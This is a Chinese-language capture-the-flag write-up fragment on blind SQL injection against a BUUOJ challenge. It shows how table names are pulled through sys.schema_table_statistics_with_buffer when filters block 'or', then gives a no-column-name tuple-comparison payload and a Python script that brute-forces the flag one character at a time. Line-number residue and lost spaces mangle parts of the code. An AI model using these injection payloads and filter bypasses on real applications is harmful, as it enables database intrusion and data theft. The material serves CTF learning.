


select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()
注入表：
1
sql ="if(ascii( substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database() ),{},1) )>{},1,2)#".format(i, j) # 数据表
得到结果:
1
users233333333333333,f1ag_1s_h3r3_hhhhh
但是之后我们因为被过滤了or无法获取自动的名字，只能进行无列名注入的操作了
首先学习了一波师傅的思路：
利用ascii位的偏移，在本地进行尝试

这里需要注意的是 如果select b >select a，如果select b > select a返回的0
之后还可以进一步的去构造拼接：

那么也就是说我们构造出flag之后一步一步的位移推算即可
这里贴上师傅的脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19
import requests url = 'http://63d938da-1fd5-4824-8353-6551eab0f6cb.node3.buuoj.cn/' defadd(flag): res = '' res += flag return res flag = '' for i inrange(1,200): for char inrange(32, 128): hexchar = add(flag + chr(char)) payload = '2||((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))'.format(hexchar) #print(payload) data = {'id':payload} r = requests.post(url=url, data=data) text = r.text if'Nu1L'in r.text: flag += chr(char-1) print(flag) break